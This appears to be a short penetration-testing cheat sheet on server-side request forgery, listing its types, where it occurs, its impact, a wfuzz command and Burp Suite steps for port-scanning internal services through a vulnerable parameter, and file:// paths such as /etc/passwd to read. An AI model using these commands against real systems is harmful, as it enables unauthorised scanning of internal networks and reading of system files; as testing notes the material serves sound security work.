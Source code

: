 # Types:

### 1: Regular

### 2: Blind

# Locations:

### 1: When a full URL is used in a parameter in the address bar (https://site.com/form?server=http://evilsite.com/malware)

### 2: A hidden field in a form (View page source)

### 3: A partial URL such as just the hostname

### 4: Only the path of the URL

# IMPACT

### 1: Access to unauthorized areas

### 2: Access to customer/organizational data

### 3: Ability to scale to internal networks

### 4: Reveal authentication tokens/credentials

# Check for internal services on a machine via SSRF

## WFUZZ

#### wfuzz -c -z range,1-65535 http://TARGET_IP/url.php?path=127.0.0.1:FUZZ

## Burpsuite

#### 1) Run burpsuite

#### 2) Insert http://127.0.0.1/ (localhost value) on a field that accepts this kind of input

#### 3) Send to burpsuite intruder

#### 4) Attack type: Sniper. Then fuzz the "http://127.0.0.1:$port$" for finding other internal services running on the machine

#### 5) Set number fuzzing to 65535 (Runs through all port numbers)

#### 6) Start the attack

### TIP: If you find yourself some files with SSRF, don't forget to check their contents by viewing the page source!

## Important Files to check out with SSRF:

 - file:///etc/passwd

 - file:///proc/self/cmdline
